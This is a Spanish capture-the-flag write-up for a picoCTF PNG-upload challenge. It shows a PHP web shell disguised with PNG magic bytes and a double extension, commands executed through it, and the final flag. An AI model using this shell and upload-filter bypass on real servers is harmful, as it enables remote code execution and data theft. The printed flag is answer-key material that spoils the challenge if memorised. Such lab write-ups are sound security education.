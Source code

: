 #Software #Hacking #WebExplotation #Web #Internet 
# Definición
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:63789/)!
# Hints
- (none)
# Solución
Primero ingresamos a [[robots.txt]] con la esperanza de encontrar algo que nos pueda guiar.
[http://atlas.picoctf.net:51596/robots.txt](http://atlas.picoctf.net:51596/robots.txt):

User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/  

Al encontrar que hay un lugar donde se puede ver como funciona el programa, lo inspeccionamos.
[http://atlas.picoctf.net:51596/instructions.txt](http://atlas.picoctf.net:51596/instructions.txt):  
  
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
  
Utilizamos [[webshell en Php]] -> lo utilizamos para ejecutar algo del lado del servidor (nos apoyamos de [[nano]] para crear el archivo [[PHP|.php]])
  
```bash
┌──(kali㉿kali)-[~]  
└─$ nano webshell.php  
```
  
No podemos subir archivos que no sean .png , por lo que intentamos un [[Double Extension Attack]].
  
```bash
┌──(kali㉿kali)-[~]  
└─$ cp webshell.php webshell.php.png  
```

Al intentar subirlo los [[magic bytes]] no coinciden  
```
Error: The file is not a valid PNG image: 3c3f7068  
```
  
```bash
┌──(kali㉿kali)-[~]  
└─$ nano webshell.php.png  
```

Usamos un truco para que los [[Magic Bytes]] coincidan.
```php
PNG  
<?php  
if(isset($_GET['cmd'])) {  
        echo "<pre>";  
        system($_GET['cmd']);  
        echo "</pre>";  
}  
?>  
```
  
Verificamos que coincidan los bits magicos  
```bash
┌──(kali㉿kali)-[~]  
└─$ xxd webshell.php.png   
00000000: 504e 470a 3c3f 7068 700a 6966 2869 7373  PNG.<?php.if(iss  
00000010: 6574 2824 5f47 4554 5b27 636d 6427 5d29  et($_GET['cmd'])  
00000020: 2920 7b0a 0965 6368 6f20 223c 7072 653e  ) {..echo "<pre>  
00000030: 223b 0a09 7379 7374 656d 2824 5f47 4554  ";..system($_GET  
00000040: 5b27 636d 6427 5d29 3b0a 0965 6368 6f20  ['cmd']);..echo   
00000050: 223c 2f70 7265 3e22 3b0a 7d0a 3f3e 0a    "</pre>";.}.?>.  
```
  
[http://atlas.picoctf.net:51596/uploads/webshell.php.png?cmd=ls](http://atlas.picoctf.net:51596/uploads/webshell.php.png?cmd=ls)  

Con esto nos vamos a la carpeta de uploads, que habíamos descubierto anteriormente.

Pero no funciona, esto es porque primero debe de ir la extensión png y luego la php.
  
```bash
┌──(kali㉿kali)-[~]  
└─$ mv webshell.php.png webshell.png.php  
```

[http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=ls](http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=ls)  
```
PNG
webshell.php.png
webshell.png.php
```

Buscamos para ver donde nos encontramos
[http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=pwd](http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=pwd)  
```
PNG
/var/www/html/uploads
```

Usamos [[Directory Transversal]] para acceder a ver que encontramos
[http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=ls ..](http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=ls)   
```
PNG
GQ4DOOBVMMYGK.txt
index.php
instructions.txt
robots.txt
uploads
```

Al ver un archivo con nombre raro, lo inspeccionamos.
[http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=cat%20../GQ4DOOBVMMYGK.txt](http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=cat%20../GQ4DOOBVMMYGK.txt)  
```
PNG
/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e} */
```
## Respuesta
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}